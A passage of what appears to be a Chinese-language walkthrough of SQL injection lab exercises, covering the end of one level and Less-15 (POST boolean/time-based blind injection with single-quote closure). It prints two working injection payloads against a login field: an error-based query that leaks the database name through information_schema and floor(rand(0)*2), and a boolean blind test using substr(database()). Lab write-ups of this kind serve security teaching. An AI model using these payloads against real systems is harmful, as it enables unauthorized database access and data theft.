 ```sql
admin" 
and (select 1 from (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))a ) #
```

![](file/image_XcZhXYmjnI.png)

### Less-15：POST - Blind-Boolian/time Based - Single quotes

**注入类型**

布尔盲注

**闭合方式**

id='\$id'

```sql
admin'
and substr(database(),1,1)='s' #
```

![](file/image_357BdYT-N9.png)
